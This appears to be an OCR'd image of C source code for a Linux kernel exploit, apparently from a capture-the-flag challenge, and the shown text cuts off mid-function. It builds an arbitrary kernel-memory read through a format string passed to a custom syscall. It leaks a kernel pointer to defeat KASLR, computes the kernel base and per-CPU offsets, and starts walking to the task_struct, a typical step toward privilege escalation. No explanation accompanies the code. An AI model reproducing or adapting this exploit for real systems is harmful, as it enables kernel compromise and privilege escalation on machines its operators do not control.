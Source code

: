 ```c

    if(n > 0){
        read(fd, &ptr, 8);
    }

    return ptr;
}

uint64_t arb_read(uint64_t ptr){
    clear_stdin();
    char *data[] = {"%s", ptr};
    syscall(SYSCALL_NO, data);
}

uint64_t arb_read_ptr(uint64_t ptr){
    char tmp[8];
    uint64_t ret;
    
    arb_read(ptr);
    ret = read_ptr_stdin();

    if(strlen(&ret) != 8){
        for(int i = 0; i < 8; i++){
            arb_read(ptr + i);
            tmp[i] = read_ptr_stdin() & 0xff;
        }
        ret = *(uint64_t *)tmp;
    }

    return ret;
}

uint64_t get_leak(){
    uint64_t leak, ptr;
    int offset = 0;

    char *data[] = {"12345678"};
    syscall(SYSCALL_NO, data);

    read_ptr_stdin();
    ptr = read_ptr_stdin();

    printf("%p\n", ptr);    
    clear_stdin();

    while((leak & 0xffff) != 0x4ec0){
        leak = arb_read_ptr(ptr + offset);

        offset += 8;
    }

    return leak;
}

int main(int argc, char *argv[]){
    uint64_t ptr = get_leak();

    uint64_t kbase = ptr - 0x1074ec0;
    uint64_t per_cpu_offset = kbase + 0x14176a0;

    ptr = arb_read_ptr(per_cpu_offset);

    uint64_t task_struct = arb_read_ptr(ptr + 0x16d00);
```